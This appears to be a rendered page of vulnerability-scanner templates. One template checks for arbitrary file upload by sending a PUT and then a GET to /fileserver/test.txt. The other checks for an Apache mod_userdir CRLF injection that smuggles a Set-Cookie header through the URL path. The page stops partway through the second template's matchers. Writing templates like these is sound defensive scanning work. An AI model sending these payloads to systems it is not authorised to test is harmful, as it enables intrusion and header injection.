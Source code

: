 ## Requests

### Step - 1

```
PUT /fileserver/test.txt HTTP/1.1
Host: {{Hostname}}

{{randstr}}

```

### Step - 2

```
GET /fileserver/test.txt HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - dsl**

- dsl
  1. status_code_1==204
  2. status_code_2==200
  3. contains((body_2), '{{randstr}}')
- condition - and

---

# Apache mod_userdir CRLF injection

## Description

- Apache CRLF injection allowing HTTP response splitting attacks on sites using mod_userdir.
- severity - medium
- tags - cve,cve2016,crlf,generic,apache

## Requests

- Method - GET

### URL

- {{BaseURL}}/~user/%0D%0ASet-Cookie:crlfinjection

### Matchers

**Type - regex**
